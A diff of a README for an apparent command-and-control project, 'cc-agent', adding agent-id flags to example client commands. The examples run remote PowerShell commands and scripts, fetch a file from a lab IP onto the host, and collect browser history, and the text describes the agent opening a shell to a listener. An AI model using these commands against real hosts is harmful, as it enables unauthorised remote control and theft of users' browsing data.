

Before and after one commit to JeanBonBeurre34/cc-agent, a Markdown page: README.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -139,30 +169,30 @@ The file will be downloaded on the agent server and stored on inside a local fol
 The agent support to run powershell command
 To run a powershell command type:
 ```bash
-python client.py --command "powershell (Get-ItemProperty -Path 'HKCU:\Keyboard Layout\Preload').PSObject.Properties"
+python client.py --command "powershell (Get-ItemProperty -Path 'HKCU:\Keyboard Layout\Preload').PSObject.Properties" --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 
 ### Run powershell script
 The agent can run local powershell script on the remote host. The script should be already available on the remote host. You need to specify the script location on the host running the agent
 ```bash
-python client.py --command "run_script C:\Users\user\Desktop\test-script.ps1""
+python client.py --command "run_script C:\Users\user\Desktop\test-script.ps1"" --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 ### Fetch file from remote url
 This helper support downloading a file from a remote http server directly on the host
 ```bash
-python client.py --command "fetchfile http://192.168.56.101/script.ps1 C:\Users\user\Desktop\test.ps1"
+python client.py --command "fetchfile http://192.168.56.101/script.ps1 C:\Users\user\Desktop\test.ps1" --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 ### Browser History
 The agent support checking the browser history and location of the history. The following command will list the browser installed and the location of the history:
 ```bash
-python client.py --command "browser_history"
+python client.py --command "browser_history" --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 Than you can download the browser history running the download option.
 
 ### Public Ip
 The following command return the public ip where the agent is running calling ipinfo.
 ```bash
-python client.py --command "publicip"
+python client.py --command "publicip" --agent-id "windows11-test0_63f53f570a475ae3"
 ```
 ### Agent operation
 The Go agent, once started, will periodically check the server for commands to execute. If the "shell" command is received, it will attempt to establish a shell connection to the listener address.
````
Also changed, not shown: other parts of README.md (+36 -29 lines).
